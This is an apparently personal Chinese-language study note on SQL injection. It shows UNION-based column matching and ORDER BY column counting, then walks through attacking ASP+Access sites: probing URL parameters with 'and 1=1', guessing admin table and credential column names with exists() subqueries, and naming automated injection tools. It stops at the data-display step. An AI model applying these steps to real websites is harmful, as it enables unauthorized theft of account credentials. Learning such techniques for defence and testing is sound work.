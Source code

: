 
## sql 注入

```sql
# 判断 login表 是否存在
select * from test where id=1 and exits(select * from login);

# 判断 表的字段 有多少
select * from test order by 2;  # 2 代表按照查询的结果中 第2个字段来排序；如果，查询结果的字段数量没有 2 个就会报错。

# 查询别的表
select * from test union select username,password from users;  # 在 test表 下显示 users表
# 如果两个表的字段数量不一样，怎么办？如：test表有2个字段，users表有3个字段，上面的语句是可以执行的，因为 union 要求返回的结果的列是一致的。但是，如果在 users表 下显示 test表 怎么做呢？
select * from users union select * from test;  # 报错：test表只有2字段，users表有3字段。
select * from users union select 1,2,3 from test;  # 正常。这里采用了 赋值 进行代替 字段的记录，但是这样 查询的结果就会显示 1，2，3 而不是 test 表的记录了。修改如下：
select * from users union select 1,id,title from test;  # 这样的结果，test表的 id,title 字段就会显示出来，第一列就用1表示。
```

## 注释

三种方法：

* way1: 以 `#` 开头；
* way2：以 `-- ` 开头（注意 `-- `与注释内容之间要加空格！）
* way3:：`/**/`

## 实战

### asp + access

* 搭站软件有：`asp小旋风2018`
* 针对此搭配的软件有：啊D，明小子。

1. 判断是否存在 注入点

    * 思路：注入点 即 浏览器使用 get 方式向服务器提交参数的页面（如：`192.168.1.1/shownews.asp?id=23`），然后在这个 url 后加上 `and 1=1` 没错误，再试下 `and 1=2` 报错。说明这个网页 把我们加上的代码 也执行了。所以这就是个注入点。（另外：url 提交后 空格转成 `%20` 显示）

2. 猜表名

    当存在注入点后，就可以通过 `url and exists(select * from admin)` 来判断是否存在 admin表
    * 常用的表名 `admin` `user` `adminiuser` `manage` `manager` `manage_user`

3. 猜字段名

    当猜到表后，就开始猜 字段名了。通过 `url and exists(select password from admin)` （当实在猜不中的时候，可以先找网站后台，看看登录框的账户密码的 html 源代码，看看它的值，再试一下这个值是不是字段名）
    * 常用字段名

        * 账号 `name username` `user_name` `admin` `adminuser` `admin_user` `admin_username` `adminname`
        * 密码 `password` `pass` `userpass` `user_pass` `pwd` `userpwd` `adminpwd` `admin_pwd`

4. 显示数据
